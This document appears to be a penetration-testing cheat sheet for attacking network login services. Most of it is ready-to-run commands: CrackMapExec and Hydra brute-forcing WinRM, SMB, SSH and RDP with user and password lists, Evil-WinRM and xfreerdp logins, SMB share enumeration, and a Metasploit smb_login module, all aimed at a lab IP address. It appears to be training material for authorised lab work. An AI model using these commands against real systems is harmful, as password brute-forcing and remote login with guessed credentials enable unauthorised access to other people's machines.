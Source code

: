 
FTP
IMAP/POP3
RDP
Telnet
SMB
SSH
WinRM
SMTP
NFS
MySQL/MSSQL
VNC
LDAP

#### WinRM - Windows Remote Management
TCP 5985 (HTTP), 5986 (HTTPS)


#### CrackMapExec
```shell-session
sudo apt-get -y install crackmapexec
```
```shell-session
crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```
```shell-session
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```
```shell-session
crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
```
```shell-session
smbclient -U user \\\\10.129.42.197\\SHARENAME
```
#### NetExec
```shell-session
sudo apt-get -y install netexec
```

#### Evil-WinRM
```shell-session
sudo gem install evil-winrm
```
```shell-session
evil-winrm -i <target-IP> -u <username> -p <password>
```
```shell-session
evil-winrm -i 10.129.42.197 -u user -p password
```

#### Hydra - SSH
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

#### Hydra - RDP
```shell-session
hydra -L user.list -P password.list rdp://10.129.42.197
```
```shell-session
xfreerdp /v:<target-IP> /u:<username> /p:<password>
```

Hydra - SMB
```shell-session
hydra -L user.list -P password.list smb://10.129.42.197
```

#### Metasploit
```shell-session
scanner/smb/smb_login
```

